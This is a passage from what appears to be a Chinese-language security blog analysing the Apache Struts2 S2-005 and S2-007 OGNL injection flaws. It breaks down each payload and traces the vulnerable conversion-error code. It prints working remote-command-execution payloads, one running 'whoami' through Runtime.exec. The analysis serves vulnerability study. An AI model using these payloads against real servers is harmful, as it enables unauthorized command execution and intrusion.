 这个漏洞的核心在于`#`的过滤被绕过，导致我们可以访问Ognl的上下文对象，也就导致了命令执行，我们可以来详细看看poc原理

S2-005的payload如下
```
('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1
```

上面的poc分成三个部分

1、`('#_memberAccess['allowStaticMethodAccess']')(meh)=true`
2、`&(aaa)(('#context['xwork.MethodAccessor.denyMethodExecution']=#foo')(#foo=new%20java.lang.Boolean("false")))`

这里主要是关闭两个禁用方法

3、`&(asdf)(('#rt.exit(1)')(#rt=@java.lang.Runtime@getRuntime()))=1`

最后就是执行命令

# S2-007

User input is evaluated as an OGNL expression when there’s a conversion error. This allows a malicious user to execute arbitrary code.

这个漏洞的成因在于，在S2中，关于表单我们可以设置每个字段的规则验证，如果类型转换错误时，就会进行错误的字符串拼接，通过闭合引号导致ognl的语法解析。

poc
```
%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29+%2B+%27
```

## 漏洞分析

跟随参数到`xwork-core-2.2.3.jar!\com\opensymphony\xwork2\interceptor\ConversionErrorInterceptor.class` ConversionErrorInterceptor

![image.png-185.3kB][7]

函数从`entry.getValue()`获取到输入的参数，当运算出现错误的时候，那么这时候就会发起强制类型转换，然后进入函数`getOverrideExpr`。

在函数`getOverrideExpr`中，传入的参数会在两边拼接单引号。

我们传入的
```
'+(#application)+'
```

就会转为
```
''+(#application)+''
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cmil8bv3wv8592sutv0dbyep/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mlwvf00mi58jlqh605a91185/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pxpjlwykpgggdms4lxm27zgc/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u5v2n7g4080hawat8lr3p6xn/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ar1ks3jmcchlnjd37tmmhc27/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3pxtgw2juw6nsfsm4vmhxdyy/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lyn5amkmmra6rbmuers34knr/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kifut0voqab6sssl3mgyk2pf/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cgy92yszm7yvvqovc1z9603a/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7sth7twxxrnajq77w6epgica/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rk9uc9eqftqi6a7tbwdh223m/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3cz9e9mbrl4dr99lisrw8s1a/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/z55ena7gzy4r83e4iz3y43fo/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/e195qeml6rrnez3f2ndgcnlu/image.png